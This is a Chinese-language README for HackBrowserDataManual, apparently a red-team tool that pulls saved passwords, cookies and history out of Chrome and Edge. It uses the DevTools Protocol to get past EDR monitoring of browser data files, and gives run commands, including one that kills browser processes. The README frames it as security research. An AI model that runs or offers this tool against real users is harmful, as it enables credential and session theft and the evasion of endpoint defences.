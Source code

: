 # HackBrowserDataManual
HackBrowserData的偏手动版，用于绕过特定情况下edr的限制

魔改自[HackBrowserData](https://github.com/moonD4rk/HackBrowserData)  
原理部分查看我的这篇博客[HackBrowserDataManual开发日记](https://blog.z3ratu1.top/HackBrowserDataManual%E5%BC%80%E5%8F%91%E6%97%A5%E8%AE%B0.html)
用于应对特殊情况下edr等软件监控了chrome的数据文件导致无法还原密码的问题  
仅在本地win10,win11上实验通过（虽然理论上我感觉应该能在linux和Mac上运行）  

使用Chrome DevTools Protocol控制浏览器，通过文件下载以及file协议等方式使用浏览器进程获取数据文件，绕过监控

需注意windows下浏览器密码解密需要DPAPI的参与，因此仅支持解密当前用户的密码，若提权至system权限，需手动窃取token等方式切换用户上下文  
用户数据文件的定位是依赖于家目录的，非默认情况下同样需要自行指定用户数据文件位置

## Disclaimer
本工具仅用于安全研究，提出一种edr监控浏览器文件后的绕过读取思路。 请勿使用于任何非法用途，严禁使用该项目对计算机信息系统进行攻击。由此产生的后果由使用者自行承担。


## Build
与HackBrowserData相同，sqlite依赖需要`CGO_ENABLED=1`下编译

## Usage
目前仅支持chrome和edge，理论上可以支持所有chromium内核的浏览器，但是我懒得整哈哈
```shell
$ ./HackBrowserDataManual.exe
extract password/history/cookie.
bypass edr monitor of browser data file by using Chromium devtools protocol

Usage:
  go_build_HackBrowserDataManual.exe [command]

Available Commands:
  devtool     Using dev tool protocol to extract cookies.
  download    download file via dev tool protocol
  help        Help about any command
  run         Parse browser cookie, password and history

Flags:
  -b, --browser string   browser(chrome/edge) (default "chrome")
  -h, --help             help for go_build_HackBrowserDataManual.exe
  -l, --log string       log level(info, error) (default "info")

Use "HackBrowserDataManual.exe [command] --help" for more information about a command.
```

### run
run命令一把梭当前用户的浏览器密码，cookie和history

**需注意cookie只有当不存在浏览器进程时才可获取。若存在浏览器进程，可使用`--kill`选项关闭所有浏览器进程**
```shell
$ ./HackBrowserDataManual.exe help run
Parse browser cookie, password and history

Usage:
  go_build_HackBrowserDataManual.exe run [flags]
  go_build_HackBrowserDataManual.exe run [command]

Available Commands:
  cookie      Parse browser cookie file
  history     Parse browser history file
  password    Parse browser Password file

Flags:
  -f, --format string   Output format(csv/json) (default "csv")
  -h, --help            help for run

Global Flags:
  -b, --browser string   browser(chrome/edge) (default "chrome")
  -l, --log string       log level(info, error) (default "info")
```

### examples
如下命令直接梭当前用户默认目录下的chrome密码，cookie和history
```shell
./HackBrowserDataManual.exe run
```

使用-b flag指定其他浏览器（目前只支持chrome和edge）
```shell
./HackBrowserDataManual.exe run -b edge
```

如果梭不通或者出问题可以使用其下的的cookie，history和password三个子命令单独获取数据。如:
```shell
./HackBrowserDataManual.exe run cookie
```

存在chrome进程需要关闭后才能获取cookie
```shell
./HackBrowserDataManual.exe run cookie --kill
```

指定输出文件名，使用run命令一把梭时不支持指定文件名
```shell
./HackBrowserDataManual.exe run cookie -o /output/filename
```

cookie文件和masterKey位于非常规位置时
```shell
./HackBrowserDataManual.exe run cookie -i /path/to/cookieFile -k /path/to/keyfile
```

devtools子命令使用devtools protocol直接从浏览器中还原全部cookie
devtools命令user data dir位于非常规位置
```shell
./HackBrowserDataManual.exe devtools -d /user/dir
```

download子命令将制定文件下载到当前文件夹
```shell
./HackBrowserDataManual.exe download /path/to/downloadfile
```